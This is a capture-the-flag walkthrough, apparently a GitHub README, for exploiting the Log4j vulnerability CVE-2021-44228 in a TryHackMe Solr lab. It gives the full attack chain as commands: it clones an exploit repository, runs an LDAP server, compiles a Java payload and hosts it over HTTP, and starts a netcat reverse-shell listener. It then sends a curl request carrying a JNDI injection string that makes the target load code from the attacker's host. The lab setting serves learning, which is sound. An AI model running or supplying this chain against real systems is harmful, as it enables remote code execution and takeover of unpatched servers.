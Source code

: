 💻 -k4u5h41-

# exploiting log4j CVE-2021-44228 ( TryHackMe Solar, Walkthrough)

```
git clone https://github.com/1nf1n17yk1ng/log4j.git 

```

## 1. run log4j.py (This whill install all the nessasary applications and start the LDAP server)

```
ifconfig tun0
python3 log4j.py 10.8.227.251

```

![image](https://user-images.githubusercontent.com/66146701/146671807-61ee758c-586b-4d45-9d50-34e7e6c4fa04.png)


## 2. Add attacker IP to Exploit.java file


![2021-12-19_00-52](https://user-images.githubusercontent.com/66146701/146672140-a1e70a73-1c3b-4e1b-a5c5-aeebf4def563.png)


## 3. Compile payload

```
javac Exploit.java -source 8 -target 8

```
![image](https://user-images.githubusercontent.com/66146701/146672281-b07fda17-a0a6-473d-8e15-bc717144d184.png)

## 4. temporary HTTP server

```
python3 -m http.server 8888

```
![image](https://user-images.githubusercontent.com/66146701/146672342-69d18b1e-e605-4906-8ee9-51868033fb6e.png)


## 5. netcat listener

```
nc -lnvp 9999

```

![image](https://user-images.githubusercontent.com/66146701/146672355-780ef25c-b3b6-4e5a-8480-ba091b95a876.png)


## 6. Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:

```
curl 'http://10.10.45.175:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.227.251:1389/Exploit\}'

```

![image](https://user-images.githubusercontent.com/66146701/146672401-33233c9c-6d91-4923-96b0-fcf3b458e5db.png)


![image](https://user-images.githubusercontent.com/66146701/146672408-cbed5a01-ff4a-4cab-81e5-8704d7674a5d.png)

